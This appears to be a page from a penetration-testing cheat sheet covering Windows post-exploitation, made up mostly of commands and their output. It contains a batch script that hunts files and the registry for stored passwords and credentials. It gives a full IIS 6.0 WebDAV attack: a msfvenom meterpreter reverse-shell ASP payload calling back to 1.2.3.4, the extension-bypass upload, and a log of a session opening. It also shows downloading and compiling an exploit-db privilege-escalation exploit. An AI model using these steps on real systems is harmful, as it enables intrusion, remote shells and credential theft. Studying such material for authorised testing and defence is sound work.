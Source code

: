          timeout 1
         dir /s *pass* == *cred* == *vnc* == *.config* >> report.txt
         timeout 1
         findstr /si password *.xml *.ini *.txt >> report.txt
         timeout 1
         reg query HKLM /f password /t REG_SZ /s >> report.txt
         timeout 1
         reg query HKCU /f password /t REG_SZ /s >> report.txt 
         timeout 1
         dir "C:\"
         timeout 1
         dir "C:\Program Files\" >> report.txt
         timeout 1
         dir "C:\Program Files (x86)\"
         timeout 1
         dir "C:\Users\"
         timeout 1
         dir "C:\Users\Public\"
         timeout 1
         echo REPORT COMPLETE!


-   Windows Server 2003 and IIS 6.0 WEBDAV Exploiting
http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html

         msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt

         cadavar http://$ip
         dav:/> put aspshell.txt
         Uploading aspshell.txt to `/aspshell.txt':
         Progress: [=============================>] 100.0% of 38468 bytes succeeded.
         dav:/> copy aspshell.txt aspshell3.asp;.txt
         Copying `/aspshell3.txt' to `/aspshell3.asp%3b.txt':  succeeded.
         dav:/> exit

         msf > use exploit/multi/handler
         msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
         msf exploit(handler) > set LHOST 1.2.3.4
         msf exploit(handler) > set LPORT 80
         msf exploit(handler) > set ExitOnSession false
         msf exploit(handler) > exploit -j

         curl http://$ip/aspshell3.asp;.txt

         [*] Started reverse TCP handler on 1.2.3.4:443 
         [*] Starting the payload handler...
         [*] Sending stage (957487 bytes) to 1.2.3.5
         [*] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700

-   Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using pyinstaller.py into an executable and upload them to the remote server.

         pip install pyinstaller
         wget -O exploit.py http://www.exploit-db.com/download/31853  
         python pyinstaller.py --onefile exploit.py
